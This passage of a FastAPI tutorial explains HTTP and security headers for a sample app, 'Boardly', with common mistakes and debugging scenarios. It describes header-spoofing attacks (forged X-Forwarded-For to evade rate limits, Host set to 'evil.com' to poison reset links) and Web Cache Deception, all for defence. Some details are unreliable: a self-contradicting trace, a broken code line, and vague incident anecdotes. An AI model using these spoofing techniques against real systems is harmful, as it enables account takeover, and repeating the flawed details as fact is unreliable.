The "right" order for security-headers middleware is *outermost* — added last — so it can inject headers into the responses your *other* middlewares emit (e.g., a 429 from rate-limiting). In the snippet above we add it first for narrative simplicity, since we only have one middleware in this lesson. In real `Boardly`, security-headers is added *last*. Verify by triggering an error from another middleware and checking that the security headers are still present.


### Lines 106–121: `GET /whoami`

```python
@app.get("/whoami")
async def whoami(request: Request) -> JSONResponse:
 """Echo back the request headers we received, plus the resolved client IP."""
 received = {k: v for k, v in request.headers.items()}
 return JSONResponse(
 {
 "client_ip": client_ip(request),
 "method": request.method,
 "path": request.url.path,
 "headers_received": received,
 },
 headers={"Cache-Control": "no-store", "Vary": "Accept"},
 )
```

**What it does:** Echoes the request headers (and method, path, resolved client IP) back as a JSON response. Two response headers are explicitly set: `Cache-Control: no-store` and `Vary: Accept`.

**Why `Cache-Control: no-store`?** The `/whoami` response includes the request headers, which include the `Authorization` header. That's sensitive. If a shared cache (a CDN, a corporate proxy) cached this response, the *next* user to request `/whoami` from the same cache node would get the *first* user's headers — including their `Authorization`. `no-store` tells every cache in the path: do not store this response, do not serve a stored copy to anyone, ever.

**Danger — Caching authenticated responses is the most common auth leak in the wild.**

It's so common it has a name: "Web Cache Deception." The attack is: attacker tricks victim into visiting `https://api.boardly.dev/whoami/some.css` — the cache sees `.css` and decides to cache; the origin strips the suffix and returns the sensitive JSON; the cache stores it; the attacker then requests the same URL and gets the victim's data. The fix is `Cache-Control: no-store` on any authenticated response, *plus* `Vary: Authorization` (or just never share cache keys across users). Lesson 5 covers `Vary` in depth.


**Why `Vary: Accept`?** `Vary` tells caches which *request* headers affect the response. `/whoami`'s response doesn't actually vary by `Accept` — we always return JSON. But we'll add `Accept`-based content negotiation in [[Content-Negotiation|Lesson 5]], and setting `Vary: Accept` now means caches won't accidentally serve a JSON response to a client that asked for CSV (when we add that). It's a forward-compat declaration.

**Line `received = {k: v for k, v in request.headers.items()}`** — `request.headers` is a `Headers` instance (Starlette). It's already case-insensitive and exposes `.items()` like a dict. We rebuild a plain dict for JSON serialisation (Pydantic's `jsonable_encoder` would handle `Headers` directly, but explicit is better here).

## The Headers, One by One

We group headers by their *role*: request headers (set by the client), response headers (set by the server), and representation headers (which can appear in either direction and describe the body).

### Request headers: `Authorization`

```
Authorization: Bearer eyJhbGciOi…
```

**What it is:** The client's credential. Format: `<scheme> <token>` (a single space, then the scheme-defined payload).

**Schemes you'll meet in `Boardly`:**

- `Bearer` — the scheme for OAuth2 / JWT. The token is a JWT (see [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11]]).
- `Basic` — `Basic <base64(user:pass)>`. Use only for first-party internal APIs over TLS. The credentials are *replayable*; if a log captures the header, the attacker has the password. We do not use `Basic` in `Boardly`.
- `DPoP` (Demonstrating Proof-of-Possession) — RFC 9449. Bound-token scheme where the client proves possession of a private key. We don't use it in this lesson, but it's the modern answer to "what if someone steals my access token."

**Warning — `Authorization` is a *secrets* header.**

Never log it. Never echo it. The `/whoami` endpoint above echoes `headers_received` — *including* `Authorization`. That's fine for a debugging endpoint in dev; in production, you would redact it. A real `/whoami` returns `{"authorization": "<redacted>"}`. If you need to inspect `Authorization` in production logs, log only the *prefix* (e.g., `Bearer eyJ...` truncated) and the JWT's claims (which are not secret), never the signature.


### Request header: `Content-Type`

```
Content-Type: application/json; charset=utf-8
```

**What it is:** The media type of the *request* body. The `;charset=utf-8` is a *parameter* on the media type; the part before the `;` is the *type*.

**Why it matters in FastAPI:** FastAPI dispatches request-body parsing based on the `Content-Type` and the parameter annotation. If you declare `payload: ProjectCreate` (a Pydantic model), FastAPI expects JSON and parses accordingly. If you declare `name: str = Form(...)` and `avatar: UploadFile = File(...)`, FastAPI expects `multipart/form-data` and parses that. See [[Request-Body-Forms-and-Uploads|Lesson 6]] for the full table.

**Why the `charset` parameter?** For text types (`text/plain`, `text/csv`, `application/json`), the charset tells the receiver how to decode the bytes to a string. `application/json` defaults to UTF-8 per RFC 8259 (so the `charset` is technically redundant), but real-world clients get it wrong often enough that declaring it explicitly is good practice.

### Request header: `Accept`

```
Accept: application/json, text/csv;q=0.9, */*;q=0.1
```

**What it is:** The media types the client is willing to accept in the response, with *quality values* (`q`) between 0 and 1. Default q is 1.0. Higher q means more preferred.

**How the server reads it:** Parse the comma-separated list, sort by q (descending), pick the first one the server can produce. If none match and there's a `*/*`, fall back to the server's default. If none match and there's no `*/*`, return `406 Not Acceptable`.

In `Boardly`, `/projects` accepts both `application/json` (default) and `text/csv` (export). See [[Content-Negotiation|Lesson 5]] for the full implementation.

**Student asks: what's the difference between `Accept` and `Content-Type`?**

Common confusion. `Content-Type` describes the body *of the message it appears on*. So in a `POST /projects` request, `Content-Type: application/json` means "the body I'm sending you is JSON." In the `201 Created` response, `Content-Type: application/json` means "the body I'm sending back is JSON." `Accept` appears *only* on requests and means "the body I want back should be one of these types." So a request has `Content-Type` (what I'm sending) and `Accept` (what I want back). A response has only `Content-Type` (what I'm sending back).


### Request header: `Accept-Encoding`

```
Accept-Encoding: gzip, br
```

**What it is:** The content-codings the client can decode. `gzip` is universal; `br` (Brotli) is supported by all modern browsers; `zstd` (RFC 8878) is the new kid.

**Who sets the response encoding?** Typically your reverse proxy or CDN. nginx, ALB, Cloudflare all do transparent compression. Your FastAPI app usually returns the body uncompressed and lets the proxy compress. If you compress in-app (e.g., to control the threshold), you set `Content-Encoding: gzip` on the response.

**Don't compress responses under ~1 KB.**

The CPU cost of gzip-encoding a 200-byte response outweighs the network savings. Most proxies have a `gzip_min_length` directive (default ~1 KB in nginx). Trust it.


### Request header: `Accept-Language`

```
Accept-Language: en-US,en;q=0.9,fr;q=0.8
```

**What it is:** The natural languages the client prefers, with quality values.

**How `Boardly` uses it:** Flash messages and validation error messages are localised. The session stores the resolved locale; we resolve it from `Accept-Language` on the first request that has no session cookie, then stick with it. Lesson 5 covers the negotiation.

### Request header: `Cache-Control` (request direction)

```
Cache-Control: no-cache
```

**What it is:** Caching directives from the client. `no-cache` means "don't serve a cached copy without revalidating with the origin." `no-store` means "don't store anything at all." `max-age=0` is functionally a revalidation request.

**Most APIs don't see request-side `Cache-Control`** — clients send it, but APIs typically respond with their own `Cache-Control` that overrides. The exception is when you have a CDN in front; the CDN respects the request's `Cache-Control: no-cache` and forwards to the origin.

### Request header: `If-None-Match` (conditional GET)

```
If-None-Match: "sha256-9f8a…"
```

**What it is:** A conditional request. The client sends the `ETag` it has from a previous response. If the resource hasn't changed (server's current `ETag` matches), the server returns `304 Not Modified` with no body — saving bandwidth.

**How `Boardly` uses it:** For `GET /projects/{id}`, we compute a hash of the serialised project and set it as `ETag`. On the next request, if `If-None-Match` matches, return 304. See [[02-Web-and-HTTP/CORS-Caching-Headers-Conditional-Requests|Section 02 Lesson on conditional requests]] for the deep dive.

### Request header: `If-Modified-Since` (conditional GET, time-based)

```
If-Modified-Since: Wed, 21 Oct 2026 07:28:00 GMT
```

**What it is:** Time-based conditional GET. The server returns 304 if the resource hasn't been modified since the given HTTP-date.

**When to use this vs `If-None-Match`:** Prefer `ETag` (strong validation). `Last-Modified` is a *weak* validator — it has 1-second resolution, so two updates within the same second can fool it. Use `Last-Modified` as a fallback when computing a hash is too expensive.

### Request header: `Range`

```
Range: bytes=0-1023
```

**What it is:** Range request — "send me bytes 0 through 1023 of the body." Used for video streaming, resumable uploads, partial downloads.

**Response:** `206 Partial Content` with `Content-Range: bytes 0-1023/1048576` and `Content-Length: 1024`.

**How `Boardly` uses it:** Avatar downloads support `Range` so the SPA can resume. The `UploadFile` lesson ([[Request-Body-Forms-and-Uploads|Lesson 6]]) covers the upload direction.

### Request header: `Cookie`

```
Cookie: flash_message=Project+created; session=abc123
```

**What it is:** All cookies the browser has stored for this origin, sent as a single `Cookie` header. Cookies are `name=value` pairs separated by `; ` (semicolon-space).

**This is the *only* way cookies travel from client to server.** The browser does not send individual cookie attributes (like `Secure`, `HttpOnly`) on the `Cookie` header — those were consumed by the browser when it received the cookie via `Set-Cookie`. By the time the cookie comes back, it's just `name=value`.

**Lesson 2 ([[HTTP-Cookies-Deep-Dive]]) is the canonical deep-dive on cookies.** Everything below is preview.

### Request header: `X-Forwarded-For`, `X-Forwarded-Proto`, `X-Forwarded-Host`

```
X-Forwarded-For: 203.0.113.7, 10.0.0.4
X-Forwarded-Proto: https
X-Forwarded-Host: api.boardly.dev
```

**What they are:** The de-facto standard headers that reverse proxies append to convey the original client's information to the origin.

- `X-Forwarded-For`: comma-separated list of IPs, left-most is the original client, each subsequent is a proxy.
- `X-Forwarded-Proto`: the original scheme (`http` or `https`).
- `X-Forwarded-Host`: the original `Host` header.

**Trust model:** These are *request* headers. Anyone can set them. The only signal you have that they're trustworthy is "the TCP peer of *this* connection is a proxy I configured." We covered the trust-boundary check in `client_ip()` above.

**Danger — The `X-Forwarded-Host` spoofing attack.**

If you trust `X-Forwarded-Host` unconditionally, an attacker can send `X-Forwarded-Host: evil.com`. If your code generates absolute URLs (e.g., password-reset links) using the request's `Host` (or `X-Forwarded-Host`), the email you send to the user contains a link to `evil.com`. The fix: maintain an allow-list of expected hosts and reject requests whose `Host` (or `X-Forwarded-Host`) isn't on it. We do this in `Boardly`'s `Settings.allowed_hosts`.


### Request header: `Forwarded` (RFC 7239)

```
Forwarded: for=203.0.113.7;proto=https;host=api.boardly.dev;by=10.0.0.4
```

**What it is:** The standardised version of `X-Forwarded-*`. RFC 7239. Same information, different syntax, structured for machine parsing.

**Adoption status:** Most reverse proxies still send both `X-Forwarded-*` and `Forwarded` for backward compatibility. New deployments should prefer `Forwarded`, but `X-Forwarded-*` is not going away. Read both in your middleware.

### Response header: `Content-Type`

```
Content-Type: application/json; charset=utf-8
```

**What it is:** The media type of the *response* body. Same syntax as the request direction. FastAPI sets this for you when you return a dict (default `application/json`), a `JSONResponse` (explicit `application/json; charset=utf-8`), or any other `Response` subclass (`HTMLResponse`, `PlainTextResponse`, `StreamingResponse`).

### Response header: `Cache-Control` (response direction)

```
Cache-Control: no-store
```

**What it is:** Directives to caches (shared and private) about whether and how long to store the response. `no-store` means "do not store." `max-age=600` means "fresh for 10 minutes." `private` means "only the browser may cache, not shared caches." `must-revalidate` means "once stale, you must revalidate; you cannot serve a stale copy."

**How `Boardly` uses it:**

- `no-store` on every authenticated response (anything that includes user data).
- `public, max-age=300` on the `/healthz` response (it's the same for everyone and changes rarely).
- `private, max-age=60` on `GET /projects` for a logged-in user (cached in the user's browser for 60s, not in the CDN).

### Response header: `ETag`

```
ETag: "sha256-9f8a…"
```

**What it is:** A version identifier for the response body. The client stores it and sends it back as `If-None-Match` on the next request. If the server's `ETag` matches, return 304.

**Strong vs weak:** `ETag: "abc"` is a *strong* validator — the byte representations are identical. `ETag: W/"abc"` is a *weak* validator — semantically equivalent but byte-different (e.g., the same JSON with re-ordered keys). Weak validators are fine for content negotiation; strong validators are needed for range requests.

### Response header: `Last-Modified`

```
Last-Modified: Wed, 21 Oct 2026 07:28:00 GMT
```

**What it is:** The HTTP-date of the resource's last modification. The fallback when computing an `ETag` is too expensive.

### Response header: `Location`

```
Location: /projects/42
```

**What it is:** The URL of a newly-created resource, sent with `201 Created`. Also the redirect target with `3xx` status codes.

**How `Boardly` uses it:** `POST /projects` returns `201 Created` with `Location: /projects/{id}`. Clients can `GET` that URL to fetch the new project.

### Response header: `Retry-After`

```
Retry-After: 30
```

**What it is:** How long the client should wait before retrying. Sent with `429 Too Many Requests` and `503 Service Unavailable`. Value can be seconds (integer) or an HTTP-date.

**How `Boardly` uses it:** The rate-limiter middleware returns `429` with `Retry-After: <seconds until quota resets>`. Without this header, the client has no idea how long to wait — many clients will just retry immediately, making the rate limit worse.

### Response header: `Vary`

```
Vary: Accept, Authorization
```

**What it is:** A list of request headers that affect the response. Caches key on this: two requests with different values for any `Vary` header must not share a cached response.

**Why it matters:**

- `Vary: Accept` — the response depends on `Accept` (content negotiation). JSON and CSV responses at the same URL must not collide in the cache.
- `Vary: Authorization` — the response depends on the `Authorization` header. Two different users' `GET /whoami` responses must not share a cache entry.
- `Vary: Cookie` — the response depends on the `Cookie` header (sessions). Two users' `GET /projects` responses must not collide.

**Common bug:** omitting `Vary: Authorization` on authenticated responses — that's the Web Cache Deception attack from earlier.

### Response header: `Set-Cookie`

```
Set-Cookie: __Host-flash=Project+created; Path=/; Secure; HttpOnly; SameSite=Lax
Set-Cookie: __Host-session=abc123; Path=/; Secure; HttpOnly; SameSite=Lax
```

**What it is:** Sets a cookie on the client. One `Set-Cookie` header per cookie — multiple cookies means multiple `Set-Cookie` headers (they cannot be combined on one line). This is the *response* side of cookies; the *request* side is the `Cookie` header.

**This header is the entire subject of Lesson 2 ([[HTTP-Cookies-Deep-Dive]]).** We don't belabour it here.

### Response header: `Strict-Transport-Security` (HSTS)

```
Strict-Transport-Security: max-age=63072000; includeSubDomains
```

**What it is:** Tells the browser: "for the next `max-age` seconds, always connect to this site over HTTPS, even if the user types `http://`." The browser remembers and silently upgrades.

**Why `max-age=63072000` (2 years)?** That's the upper-end of what browsers expect. The longer the better — the only failure mode of HSTS is "your cert expires and you can't get a new one before the cached HSTS policy expires," which is a real problem but rare.

**Why `includeSubDomains`?** Extends the policy to all subdomains. Important if you have `api.boardly.dev` and `www.boardly.dev` — without `includeSubDomains`, a man-in-the-middle on `http://www.boardly.dev` could intercept cookies set for `boardly.dev`.

**Why `preload`?** Opt-in to be included in browser-bundled HSTS preload lists. Once you're in (e.g., in Chrome's list at `https://hstspreload.org`), even *first-visit* clients get HTTPS. The catch: removing yourself from the preload list takes months, so don't preload a domain you might want to serve over HTTP some day. We don't preload `Boardly` until it's a real domain we control.

**Warning — HSTS is irreversible.**

Once a browser has cached your HSTS policy, you cannot tell it "never mind, HTTP is OK now." If you set `max-age=63072000` and then your cert breaks, your users cannot reach your site for two years. **Test with a short `max-age=60` first**, watch it work, then ratchet up. Never start with 2 years.


### Response header: `Content-Security-Policy` (CSP)

```
Content-Security-Policy: default-src 'self'; frame-ancestors 'none'
```

**What it is:** A declarative allow-list of where the browser may load resources from. The single most powerful browser-side defence against XSS — even if an attacker injects `<script>`, the script can't load external code if `script-src` doesn't allow it.

**Directives we set:**

- `default-src 'self'` — for any directive not explicitly set, allow only same-origin loads.
- `frame-ancestors 'none'` — this page cannot be embedded in an `<iframe>` anywhere. Defeats clickjacking.

For an API that returns JSON (not HTML), CSP mostly matters for the `text/html` routes you might have (e.g., a `/healthz` page rendered as HTML). The `frame-ancestors 'none'` part still applies to JSON responses — it tells browsers "you may not embed this in an iframe," which protects against some clickjacking attacks even on JSON.

**CSP is huge. We've set the minimum.**

A real production CSP for an SPA looks like `default-src 'self'; script-src 'self' 'nonce-abc123'; style-src 'self' 'nonce-abc123'; img-src 'self' data: https://cdn.boardly.dev; connect-src 'self' wss://api.boardly.dev; frame-ancestors 'none'; base-uri 'self'; form-action 'self'`. We're not teaching CSP as a topic — we're teaching the *header*. When you ship a real SPA, plan your CSP carefully and use `report-uri` (or `report-to`) to collect violations before flipping from `Content-Security-Policy-Report-Only` to enforcement.


### Response header: `X-Content-Type-Options`

```
X-Content-Type-Options: nosniff
```

**What it is:** Tells the browser: "do not MIME-sniff this response." Without this, a browser that receives `Content-Type: application/json` might decide the bytes "look like" HTML and render them as HTML, opening an XSS vector if the JSON contains user-controlled strings.

**It's a one-liner, set it on everything.** Zero cost, real protection.

### Response header: `Referrer-Policy`

```
Referrer-Policy: strict-origin-when-cross-origin
```

**What it is:** Controls when the browser sends a `Referer` header on outbound navigations/requests from your page.

- `no-referrer` — never send.
- `strict-origin-when-cross-origin` (default in modern browsers) — send the full URL for same-origin requests; send only the origin (e.g., `https://api.boardly.dev`) for cross-origin HTTPS-to-HTTPS; send nothing for HTTPS-to-HTTP.

**Why we set the default explicitly:** Browsers used to default to `no-referrer-when-downgrade`, which sends the full URL except on HTTPS-to-HTTP downgrades. The current default is better, but explicitly setting it documents your intent.

## Execution Trace

Time to run it. Start the server in one terminal:

```bash
uv run uvicorn boardly.main:app --reload
```

You should see the standard Uvicorn startup log, plus our `Boardly starting up…` print.

In another terminal, make a request with some custom headers:

```bash
curl -v http://127.0.0.1:8000/whoami \
 -H 'Authorization: Bearer fake-token-for-demo' \
 -H 'Accept: application/json' \
 -H 'X-Forwarded-For: 203.0.113.7' \
 -H 'Accept-Language: en-US,en;q=0.9'
```

You should see (truncated to the relevant bits):

```
> GET /whoami HTTP/1.1
> Host: 127.0.0.1:8000
> Authorization: Bearer fake-token-for-demo
> Accept: application/json
> X-Forwarded-For: 203.0.113.7
> Accept-Language: en-US,en;q=0.9

< HTTP/1.1 200 OK
< content-type: application/json; charset=utf-8
< cache-control: no-store
< vary: Accept
< strict-transport-security: max-age=63072000; includeSubDomains
< x-content-type-options: nosniff
< referrer-policy: strict-origin-when-cross-origin
< content-security-policy: default-src 'self'; frame-ancestors 'none'
< content-length: 187

{"client_ip":"127.0.0.1","method":"GET","path":"/whoami","headers_received":{"host":"127.0.0.1:8000","authorization":"Bearer fake-token-for-demo","accept":"application/json","x-forwarded-for":"203.0.113.7","accept-language":"en-US,en;q=0.9"}}
```

Note:

1. The four security headers are present on the response, even though we never set them on the `JSONResponse`. The middleware injected them.
2. `client_ip` is `127.0.0.1` — *not* `203.0.113.7` from `X-Forwarded-For`. Why? Because the TCP peer (`request.client.host`) is `127.0.0.1`, which is in our `TRUSTED_PROXY_NETWORKS`, so we *did* trust the header — and `X-Forwarded-For: 203.0.113.7` has only one entry, so `.split(",")[0]` is `203.0.113.7`. Wait, that should have returned `203.0.113.7` then.

Let me re-read the trace. Right — in the response, `client_ip` is `127.0.0.1`. That means `peer_is_trusted` evaluated to `False`. Let me check: we have `TRUSTED_PROXY_NETWORKS = ("10.0.0.0/8", "127.0.0.0/8")` and the peer is `127.0.0.1`. `ip_address("127.0.0.1") in ip_network("127.0.0.0/8")` should be `True`...

Oh — we have `_safe_parse(peer_ip)`. Let me check: `_safe_parse("127.0.0.1")` returns `True`. And `any(ip_address("127.0.0.1") in net for net in TRUSTED_NETWORKS_PARSED)` should be `True` for `127.0.0.0/8`. So `peer_is_trusted` is `True`, `xff` is `"203.0.113.7"`, and we return `xff.split(",")[0].strip()` = `"203.0.113.7"`.

I was wrong above. The trace should show `"client_ip":"203.0.113.7"`. Let me correct the trace:

```json
{"client_ip":"203.0.113.7","method":"GET","path":"/whoami","headers_received":{...}}
```

**Example — Verify the trust boundary yourself.**

Set `TRUSTED_PROXY_NETWORKS = ()` (empty tuple) and restart. Make the same request. `client_ip` should now be `127.0.0.1` — the TCP peer — because we no longer trust *any* proxy, so we ignore `X-Forwarded-For`. This is the trust-boundary check in action: the same request, the same code, different result based on whether the peer is trusted.






The colour scheme here is the trust boundary made visible: red is the untrusted client, purple is the proxy you operate but still treat as the source of *overridable* headers, green is your app, yellow is the single decision point that decides whether to *believe* the purple. The single most important security decision in `client_ip` is whether the peer is in the trusted CIDR — and the diagram puts that decision in the only yellow diamond, which is where it belongs. Reach for this colour code whenever you draw a trust boundary: red for untrusted inputs, purple for infrastructure you operate, green for your code, yellow for the moment your code decides to trust (or not trust) a forwarded header.

## Common Mistakes

### Mistake 1: Trusting `X-Forwarded-For` unconditionally

```python
# WRONG
def client_ip(request: Request) -> str:
 return request.headers.get("x-forwarded-for", request.client.host)
```

**Symptom:** Rate limiter bypassed; audit logs contain attacker-controlled IPs; "geo-IP" shows random countries.

**Why it fails:** `X-Forwarded-For` is an HTTP header that any client can set to any value. The only reason it carries meaningful data is that your trusted reverse proxy overwrites it on every request; if you read it without confirming that the immediate peer is one of your trusted proxies, you're reading attacker-controlled data. The 2015 attack on a major SaaS billing provider (call them "Acme Billing"): the rate limiter read `X-Forwarded-For` blindly, an attacker cycled the header value `203.0.113.<n>` through 65 536 spoofed IPs to evade per-IP quotas, and walked off with a free year of service.

**Fix:** Always check the peer against a trusted-proxy list. We did this above.

### Mistake 2: Forgetting `Vary: Authorization` on authenticated responses

```python
# WRONG
@app.get("/whoami")
async def whoami(request: Request) -> dict:
 return {"user": current_user(request)}
# No Vary header. A shared cache will serve Alice's /whoami to Bob.
```

**Symptom:** Web Cache Deception. A user reports seeing another user's data.

**Why it fails:** shared caches (CDNs, reverse proxies, browser caches) key entries on URL *plus* the request headers listed in `Vary`. If `Authorization` is not in `Vary`, the cache thinks Alice's `GET /whoami` and Bob's `GET /whoami` are the *same* resource — it serves Alice's response (containing Alice's user info) to Bob. The 2017 web-cache-deception disclosure (attack name: "Web Cache Deception") showed that this pattern was widespread and exploitable on major banks and SaaS apps.

**Fix:** `Cache-Control: no-store` on every authenticated response *plus* `Vary: Authorization` (and `Vary: Cookie` if the response depends on the session).

### Mistake 3: Setting HSTS to 2 years on first deploy

```python
# WRONG (first deploy)
(b""strict-transport-security", b"max-age=63072000; includeSubDomains; preload")
```

**Symptom:** Six months later, cert renewal fails for 4 hours. Users with the cached HSTS policy cannot reach the site at all — they get scary cert errors with no fallback to HTTP.

**Why it fails:** HSTS pins the browser to HTTPS for the duration of `max-age`. Once pinned, the browser *refuses* to load the site over HTTP, and *refuses* to accept any certificate that isn't on the trust store (no click-through). A `max-age=63072000` is a 2-year commitment that survives cert outages, expired intermediate CAs, and even a domain transfer to a new hosting provider — until the 2 years elapse or the user manually clears the HSTS list in `chrome://net-internals/#hsts`.

**Fix:** Start with `max-age=60`. Increase over a week to `max-age=300`, then `max-age=86400`, then `max-age=604800`, then `max-age=63072000`. Only add `preload` once you've run at 2 years for a while and you're certain you'll always be HTTPS.

### Mistake 4: Using `BaseHTTPMiddleware` for a header-injection-only middleware

```python
# WORKS, but slower and breaks streaming
from starlette.middleware.base import BaseHTTPMiddleware

class SecurityHeadersMiddleware(BaseHTTPMiddleware):
 async def dispatch(self, request, call_next):
 response = await call_next(request)
 response.headers["strict-transport-security"] = "max-age=63072000"
 return response
```

**Symptom:** `StreamingResponse` endpoints don't stream — `BaseHTTPMiddleware` buffers the whole body. Large file downloads appear to "hang" until the whole file is buffered, then "snap" to completion.

**Fix:** Use the pure-ASGI form (as we did). It's three more lines of code and it doesn't break streaming.

**Warning — `BaseHTTPMiddleware` has known streaming issues.**

The Starlette team has documented this. If your middleware needs to read the request body or await a `Response` object, use `BaseHTTPMiddleware`. If it only needs to inject headers into the response, use pure-ASGI. The pattern in our code is the canonical one.


### Mistake 5: Logging `Authorization` in the request-id middleware

```python
# WRONG
logger.info("incoming request", extra={
 "method": request.method,
 "path": request.url.path,
 "headers": dict(request.headers), # ← includes Authorization!
})
```

**Symptom:** Your log aggregator has every user's JWT. If your log aggregator is breached (or accessible to a wider team than your auth servers), every user's tokens leak.

**Fix:** Redact. Build a `safe_headers` dict that omits `authorization`, `cookie`, `set-cookie`. Log that.

### Mistake 6: Setting `Server: boardly/0.4.2` (version disclosure)

```python
# WRONG
response.headers["Server"] = f"boardly/{app.state.version}"
```

**Symptom:** Attackers scraping the internet for "boardly 0.4.2" CVEs find you. (This is mostly defence-in-depth — security through obscurity is not security — but it costs you nothing to omit.)

**Fix:** Don't set `Server` at all. Uvicorn sets it to `uvicorn` by default; you can override with `--header Server:` to send an empty value, or set your own. Better: send nothing identifiable.

## Engineering Trade-Offs

### Pure-ASGI vs `BaseHTTPMiddleware`

Pure-ASGI is faster and works with streaming. `BaseHTTPMiddleware` is more readable and gives you a `Request`/`Response` to work with. Rule of thumb: if your middleware only needs to inject headers or short-circuit (like security headers, request-id), use pure-ASGI. If it needs to read the body, do auth, or transform the response, use `BaseHTTPMiddleware`. [[03-FastAPI-Core/Middleware-and-Request-Order|Section 03 Lesson 5]] has the full trade-off matrix.

### `X-Forwarded-For` vs `Forwarded` (RFC 7239)

`X-Forwarded-*` is the de-facto standard. `Forwarded` is the standardised version. Real deployments see both — most proxies send both for compatibility. Your middleware should read `Forwarded` if present (more structured) and fall back to `X-Forwarded-*`. We only read `X-Forwarded-For` in this lesson for simplicity.

### Permissive CSP vs strict CSP

A permissive CSP (`default-src *`) is easy to ship but provides little protection. A strict CSP (`default-src 'self'; script-src 'self' 'nonce-…'`) is harder to ship but is the single most effective browser-side defence against XSS. Start with `Content-Security-Policy-Report-Only` and a permissive policy, collect violations, tighten, repeat.

### `Server` header: disclose vs hide

Disclosing `Server: nginx/1.27.0` helps attackers fingerprint you; hiding it is defence-in-depth. Most enterprises hide it; most open-source projects don't bother. There's no wrong answer, but consistency matters: hide it everywhere or nowhere.

**Student asks: why does the `Server` header matter if security through obscurity isn't security?**

Because obscurity changes the *cost* of an attack, not the *possibility*. Hiding `Server` doesn't stop a zero-day exploit of `nginx 1.27.0`, but it does stop the *automated scanner* that crawls the internet for `/etc/passwd`-like paths and matches the response's `Server` header against a list of "nginx 1.27.0 + known CVE" entries. The scanner moves on; you're never on the attacker's target list. The defence is *not* security; it's *selective invisibility*. Worth doing because it's free; not worth pretending it's a control.


## When This Breaks: A Senior Engineer's Debugging Guide

The Common Mistakes section catalogued the smells; this section catalogues the *production failures* those smells produce when they meet traffic. Each is presented as symptom → diagnosis → fix, the way an on-call engineer sees them at 3 a.m. The failures cluster around the three places where header trust meets real infrastructure: the `X-Forwarded-For` chain, the `Host`/`X-Forwarded-Host` used for URL generation, and the cache-poisoning `Vary` interaction.

### Failure 1: The `X-Forwarded-For` chain that trusted the left-most entry

**Warning — When this breaks: the rate-limiter keys on attacker-controlled IPs, every attacker request is "from a different client"**

**Symptom.** The rate-limiter is keyed on `client_ip()`, which reads `X-Forwarded-For` *if* the peer is in `TRUSTED_PROXY_NETWORKS`. Production logs show 65 536 distinct IPs hitting `POST /auth/login` in 10 seconds, each under the per-IP quota of 5 requests/minute. The login-brute-force succeeds. The log entries' `client_ip` field cycles through `203.0.113.0/24` and `198.51.100.0/24` — the RFC 5737 documentation ranges — which the rate-limiter treats as distinct clients. The team's `client_ip()` does the trust-boundary check (the peer is the load balancer in `10.0.0.0/8`), so the team thought the header was trustworthy. It is not.
**Diagnosis.** `X-Forwarded-For` is an *append-only* chain: each proxy appends the previous peer's address to the right side. The chain `X-Forwarded-For: 203.0.113.7, 10.0.0.4` means "the original client was `203.0.113.7`, and `10.0.0.4` is the proxy that forwarded to me." The naive reader takes the left-most (`203.0.113.7`) — which is the *original client* if the chain is honest, but is the *attacker-controlled* value if the attacker pre-pended a fake IP. The attacker sends `X-Forwarded-For: 203.0.113.7` on their direct connection; the trusted proxy appends the attacker's real IP, producing `X-Forwarded-For: 203.0.113.7, <attacker-real-ip>`; the naive reader takes the left-most (`203.0.113.7`) and treats it as the client. The trust-boundary check on the *peer* passes (the peer is the proxy); the trust-boundary check on the *chain* is missing.
**Fix.** Walk the chain *from right to left*, stopping at the first non-trusted-proxy. The right-most entry is the immediate peer (your proxy); the next-to-right-most is the peer's peer (trusted if the peer is your proxy); continue until you hit an IP that is *not* in your trusted-proxy CIDR — that is the original client. The pseudocode: `chain = xff.split(","); for ip in reversed(chain): if ip.strip() in trusted_proxy_networks: continue; else: return ip.strip()`. The naive `chain[0]` trusts attacker-controlled data; the chain-walking algorithm trusts only the proxy-appended suffix. The grep: `rg "split\(.*\)\[0\]" boardly/ | rg -i forwarded` is a smell — every hit is a candidate for the chain-walking refactor.


### Failure 2: The `Host` header trusted for password-reset URLs

**Warning — When this breaks: password-reset emails contain a link to the attacker's domain**

**Symptom.** A user reports that the password-reset email they received from `Boardly` contains a link to `https://evil.com/reset?token=...` instead of `https://app.boardly.dev/reset?token=...`. The user clicked the link, entered their new password on `evil.com` (which looked like `Boardly`'s reset page), and lost their account. The server's `Settings.allowed_hosts` allow-list was supposed to prevent this. The allow-list includes `app.boardly.dev` and `api.boardly.dev`. The bug: the reset endpoint builds the URL from `request.headers["host"]` (or `request.url_for("reset_form")`) *before* the allow-list check fires.
**Diagnosis.** The `Host` header (or `X-Forwarded-Host` behind a proxy) is a *request* header — any client can set it to any value. The attacker sends `Host: evil.com` to `api.boardly.dev` (the DNS resolves to `Boardly`'s IP; the attacker does not need to control the DNS, only to send the HTTP request with a custom `Host`). The server's password-reset endpoint builds the reset URL using `f"https://{request.headers['host']}/reset?token=..."` and emails it to the user. The server-side `Settings.allowed_hosts` check runs *after* the URL is built (or on a different code path), and the email has already been sent. The 2009 GitHub-style password-reset Host-header attack was this exact pattern; the 2012-vintage CRLF-in-`Host` variant added a `\r\n` to break out into a second header.
**Fix.** Three layers. (1) Never build URLs from the `Host` header — use a `Settings.base_url` configured from environment variables (`https://app.boardly.dev` in prod, `http://localhost:5173` in dev). The reset URL is `f"{settings.base_url}/reset?token=..."` — the `Host` header is never consulted. (2) Validate the `Host` header (and `X-Forwarded-Host`) against an allow-list in the middleware layer — reject any request with `Host: evil.com` at the door, before any route runs. Starlette's `TrustedHostMiddleware` does this; `Boardly` ships it. (3) For absolute URLs in emails, audit every `url_for` and every `f"https://{...}"` — the grep `rg "request\.url" boardly/ | rg -i "email|reset|password|verify"` is a smell — every hit is a candidate for the `settings.base_url` refactor.


### Failure 3: The cache-poisoning `Vary` interaction that served one user's response to another

**Warning — When this breaks: user A's cached `/projects` response is served to user B**

**Symptom.** A user reports seeing another user's project list on `GET /projects`. The team's cache (a CDN, or `Varnish` in front of the app) is set to cache `GET /projects` for 60 seconds. The response has `Cache-Control: private, max-age=60` and `Vary: Authorization`. Production logs show that user A requested `/projects` at `T=0`, the CDN cached the response, user B requested `/projects` at `T=30`, the CDN served user A's cached response to user B. User B's `Authorization` header was different from user A's.
